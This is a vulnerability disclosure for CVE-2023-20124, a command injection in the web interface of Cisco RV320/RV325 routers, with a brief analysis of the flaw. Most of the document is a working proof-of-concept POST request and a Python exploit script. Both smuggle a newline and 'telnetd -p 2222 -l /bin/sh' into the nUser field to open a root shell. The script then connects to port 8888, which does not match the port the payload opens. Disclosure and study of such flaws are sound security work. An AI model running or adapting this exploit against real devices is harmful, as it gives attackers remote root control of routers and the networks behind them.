




CVE-id: CVE-2023-20124

Vendor's disclosure and acknowledgement: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-sb-rv01x_rv32x_rce-nzAGWWDD

# Information

**Vendor of the products:**  Cisco

**Vendor's website:**  https://www.cisco.com

**Reported by:**  FeiXincheng([FXC030618@outlook.com](mailto:FXC030618@outlook.com)) && ShaLetian([ltsha@njupt.edu.cn](mailto:ltsha@njupt.edu.cn))

**Affected products:**

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

1.5.1.13 (the latest release version)

**Firmware download address:**

https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13

# Overview

**Cisco RV32x Series VPN Routers** were detected with a command injection vulnerability .The vulnerability is caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerability was detected in the `ssi.cgi` binary.

In the **NK_UiSetPassword** function, first we need to bypass some checks by inputing the right passwd and seting the **submitStatus** value.



And then, we can control **local_2c0**.



Finally ,it can be passed to **system**. Although **local_2c0** will be checked before **system**, i think it ignores **\n**. As a result, it can lead to a **command inject**.



Above all, here is a remote command execution vulnerability. The attacker can inject arbitrary commands after the**\n** in the **nUser** of the POST request message and execute them.

# Poc

Send the following POST request message

```
POST /password.htm HTTP/1.1
Host: 192.168.1.1
Cookie: mlap=4zcoqrxD+KTbtDfDTuIWCA==
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 411
Origin: https://192.168.1.1
Referer: https://192.168.1.1/password.htm
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

page=password.htm&submitStatus=1&log_ch=1&check_aging_time=0&current_username=cisco&PdAgingTime_open_flag=0&nnUser=cisco&nUser=cis%0Atelnetd%20-p%202222%20-l%20%2Fbin%2Fsh%0A&oPass=123456&md5_old_pass=bbd5a14a86bbdc390e4370ad8525d9eb&md5_new_pass=066bae9070a9a95b3e03019db131cd40&auth_key=1964300002&nPass=cisco&cPass=cisco&PdStrength=&PdAgingDate=0&PDlength=8&PDclass=3&PDdifferent=0&EnableAge=0&idletimeout=10
```

# Attack Demo

After the attack is completed, we successfully logged into the device remotely and got the **root** shell of the device



# exp

```python
import os
import requests

cookies = {
    'mlap': 's/a8YMD2yjnpaHzgm/mnJg==',
}

headers = {
    'Host': '192.168.1.1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://192.168.1.1',
    'Referer': 'https://192.168.1.1/password.htm',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'iframe',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
    'Connection': 'close',
}

data = 'page=password.htm&submitStatus=1&log_ch=1&check_aging_time=0&current_username=cisco&PdAgingTime_open_flag=0&nnUser=cisco&nUser=cisco%0Atelnetd%20-p%202222%20-l%20%2Fbin%2Fsh%0A&oPass=123456&md5_old_pass=bbd5a14a86bbdc390e4370ad8525d9eb&md5_new_pass=066bae9070a9a95b3e03019db131cd40&auth_key=1964300002&nPass=cisco&cPass=cisco&PdStrength=&PdAgingDate=0&PDlength=8&PDclass=3&PDdifferent=0&EnableAge=0&idletimeout=10'


if __name__ == "__main__":
	
	requests.packages.urllib3.disable_warnings()
	print("[+] Send payload to 192.168.1.1 ...")
	response = requests.post('https://192.168.1.1/password.htm', cookies=cookies, headers=headers, data=data, verify=False, timeout=1)
	
	print("[+] Connect to 192.168.1.1 8888")
	os.system("telnet 192.168.1.1 8888")

```

